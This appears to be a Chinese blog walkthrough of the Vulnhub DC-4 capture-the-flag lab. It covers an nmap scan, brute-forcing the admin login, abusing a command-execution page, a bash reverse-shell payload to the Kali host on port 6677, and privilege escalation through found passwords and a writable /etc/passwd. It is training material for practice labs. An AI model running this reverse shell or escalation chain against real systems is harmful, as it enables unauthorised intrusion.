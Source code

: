 ```yaml
---
title: 'DC-4 : Walkthrough'
date: 2020-05-15T18:59:03+08:00
author: 2hanx
layout: post
categories:
  - Vulnhub
---
```

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机       | IP              |
| --------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali      | `192.168.1.112` |
| DC-4      | `192.168.1.111` |

### 扫描端口和版本信息

`nmap -A 192.168.1.111`

![1.png](https://i.loli.net/2020/05/15/CpGPecgXkrbDHBW.png) 

### 访问Web并确定web应用

根据 Nmap 扫描结果可知，web 应用程序运行的是 HTTP 服务器

![2.png](https://i.loli.net/2020/05/15/3NZLmGWzpgCAO7Q.png) 

经过审计源码，特殊字符SQL注入测试后均无所获，那么就只有暴力破解了

![3.png](https://i.loli.net/2020/05/15/Hg5halZwksNIiD4.png) 

暴力破解结果，得到账户和密码：`admin:happy`

![4.png](https://i.loli.net/2020/05/15/BUvKbjeGTYyNIJw.png) 

使用账户和密码登录后，进入到命令执行页面，看样子可执行代码

![5.png](https://i.loli.net/2020/05/15/CNu1jzmQRdSsgEw.png) 

要是这样的话，这题就简单了。通过查看`/etc/passwd` 文件可知系统存在三个用户：_charles_、_jim_、_sam_

![6.png](https://i.loli.net/2020/05/15/wjbehWO3FVKEpGU.png) 

### Getshell

修改发送请求中的请求体如下，同时在 Kali 上监听 **6677** 端口

`radio=/bin/bash -c 'bash -i >%26 /dev/tcp/192.168.1.112/6677 0>%261'&submit=Run`

![7.png](https://i.loli.net/2020/05/15/xFWcr5yIqK6EMmw.png) 

将 Kali 中已下载好的 LinEnum.sh 脚本上传到 DC-4 虚拟机中，并运行脚本得到以下有用信息

![8.png](https://i.loli.net/2020/05/15/5YHoSf2jRVFpgMl.png) 

![9.png](https://i.loli.net/2020/05/15/2cv1tGhfTsqjP6O.png) 

结果显示 `/home/jim/`目录下的 `test.sh` 脚本具有 SUID 权限。此外在 `bakups`目录下存在旧密码的备份文件，并且 _jim_ 和 _www-data_ 账户都有一份邮件。但是查看 _www-data_ 账户的邮件没什么有用信息，想读 `jim` 账户邮件也得知道 `jim` 账户的密码

![10.png](https://i.loli.net/2020/05/15/Ea52dDiqMITcABN.png) 

既然已经知道账户名和密码本，那就试着进行密码爆破。并且给出了这个文件，必然有用处

![11.png](https://i.loli.net/2020/05/15/f79AU6RCGewNDs5.png) 

果不其然，我们得到账户 _jim_ 的密码：`jibril04`。 登录上去查看一下 _jim_ 的邮件

![12.png](https://i.loli.net/2020/05/15/v2ptQOZfqrFuego.png) 

### 提权

Good，邮件里给出了 _charles_ 账户的密码：`^xHhA&hvim0y`

![13.png](https://i.loli.net/2020/05/15/Q1UzdVXwF4TeouZ.png) 

通过查看 `teehee`帮助文件，知道该命令的作用就是读写文本。看来我们可以以 _root_ 权限任意写文件，那么我们通过修改 `/etc/passwd` 文件添加用户就可以获取 _root_ 权限

![14.png](https://i.loli.net/2020/05/15/mkUEO7Va4zZe9pR.png)